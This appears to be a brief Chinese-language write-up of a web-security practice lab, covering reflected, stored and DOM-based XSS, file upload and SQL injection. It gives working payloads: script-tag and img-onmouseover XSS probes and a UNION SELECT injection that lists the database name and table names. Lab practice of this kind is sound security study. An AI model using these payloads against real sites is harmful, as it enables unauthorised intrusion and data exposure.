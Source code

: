 [xssreflected](#xssreflected)
[xssstored](#xssstored)
[xssdom](#xssdom)
[文件上传](#文件上传)
[sql注入](#sql注入)
[sql盲注](#sql盲注)
# xssreflected
没有任何过滤
`<script>alert(6566)</script>`

![](./img/xss1.png)
# xssstored
还是没有任何过滤
`<script>alert(6566)</script>`

![](./img/xss2.png)
# xssdom
查看回显，自动过滤<之后的内容
`<script>alert(6566)</script>`
小括号死活绕不过去
`<img src=1 onmouseover=alert(/xss/)>`
这个不过滤
![](./img/xss3.png)

# 文件上传
php和普通图片都上传不了。。。。
# sql注入
查询得到不回显，查询不到显示exist，闭合方式为'
`1' union select 1,database(),3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database()#`
# sql盲注
根本不是盲注，还是联合查询
`1' union select 1,database(),3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database()#`